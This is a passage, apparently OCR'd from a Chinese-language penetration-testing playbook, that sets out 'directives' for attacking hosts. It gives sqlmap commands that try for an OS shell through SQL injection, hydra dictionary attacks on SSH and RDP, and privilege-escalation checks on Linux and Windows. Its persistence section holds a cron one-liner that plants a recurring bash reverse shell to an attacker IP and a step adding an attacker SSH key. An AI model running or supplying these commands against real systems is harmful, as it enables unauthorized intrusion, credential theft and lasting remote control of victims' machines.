     ```bash
    sqlmap -u "http://example.com/page.php?id=1" --risk=3 --level=5 --batch --dbs --os-shell
    ```

    * `--risk=3`, `--level=5`: 使用最高风险和最全面的测试。
    * `--batch`: 对交互式问题自动回答“是”。
    * `--dbs`: 枚举所有数据库。
    * `--os-shell`: 尝试通过数据库连接获取一个完整的操作系统 shell。
  * **战略背景**: 如果 Web 应用存在 SQL 注入漏洞，`sqlmap` 是通往数据库乃至服务器完全控制的最有效路径。
* **指令 3.3：认证暴力破解**

  * **工具**: `hydra`
  * **目的**: 对认证服务执行快速的字典攻击。
  * **语法**:
    ```bash
    # 攻击单个主机的 SSH 服务
    hydra -L users.txt -P passwords.txt ssh://目标IP

    # 攻击主机列表上的 Windows RDP 服务
    hydra -L users.txt -P passwords.txt -M targets.lst rdp
    ```
  * **战略背景**: 对弱密码或默认凭证非常有效，这是一种常见的配置错误。

---

### **阶段 4：后渗透 (权限扩展与控制)**

获得初始访问后，目标是提升权限、建立持久化、在网络中横向移动并窃取数据。

#### **4.1 权限提升**

* **指令 4.1.1：Linux 内核/服务提权**

  * **工具**: `LinEnum.sh`, `linpeas.sh` (自动化枚举脚本)
  * **目的**: 自动识别权限提升的向量。
  * **手动检查**:
    * `sudo -l`: 检查配置错误的 sudo 权限。
    * `find / -perm -u=s -type f 2>/dev/null`: 查找可被利用的 SUID 可执行文件。
    * `ps aux | grep root`: 查看以 root 身份运行的服务，它们可能存在漏洞。
* **指令 4.1.2：Windows 权限提升**

  * **工具**: `winPEAS.bat`, PowerSploit 模块 `PowerUp.ps1`
  * **目的**: 自动化枚举 Windows 权限提升向量。
  * **手动检查**:
    * `whoami /priv`: 检查可被滥用的特权 (例如 `SeImpersonatePrivilege`)。
    * `icacls C:\Path\To\Service.exe`: 检查弱文件夹/文件权限。

#### **4.2 持久化**

* **指令 4.2.1：Linux 持久化**

  * **Cron Jobs (定时任务)**: `(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[你的IP]/[端口] 0>&1'") | crontab -` (创建一个定时反向 shell 任务)。
  * **SSH 密钥**: 将你的公钥添加到 `/home/user/.ssh/authorized_keys`。
* **指令 4.2.2：Windows 持久化**
